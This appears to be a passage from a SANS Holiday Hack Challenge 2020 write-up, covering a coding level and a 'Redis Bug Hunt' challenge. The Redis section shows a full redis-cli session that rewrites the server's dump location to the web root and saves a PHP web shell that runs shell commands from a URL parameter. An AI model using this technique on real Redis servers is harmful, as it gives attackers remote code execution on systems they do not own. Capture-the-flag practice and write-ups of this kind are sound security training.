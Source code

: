 
#### Level 7 - Yeeter Swirl

 - About
> Follow the swirl being careful not to step on any traps (or get yeeted off the map).

 - Note
> elf.moveTo(object) has been disabled for this challenge.

 - Hint 
> Use loops and an incrementing count to take the exact number of steps.

```javascript

``` 

## Kitchen

### Redis Bug Hunt (Holly Evergreen)

<https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#redis-rce>

[![](/assets/images/sans/2020/e43d9758.png)](/assets/images/sans/2020/e43d9758.png)

```text
player@ae1b7d72cb1a:~$  redis-cli --raw -a 'R3disp@ss'
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
127.0.0.1:6379> config set dir /var/www/html/
OK
127.0.0.1:6379> config set dbfilename redis.php
OK
127.0.0.1:6379> set test "<?php echo shell_exec($_GET['jiveturkey']); ?>"
OK
127.0.0.1:6379> save
OK
127.0.0.1:6379> exit
```

[![](/assets/images/sans/2020/40fd33d7.png)](/assets/images/sans/2020/40fd33d7.png)
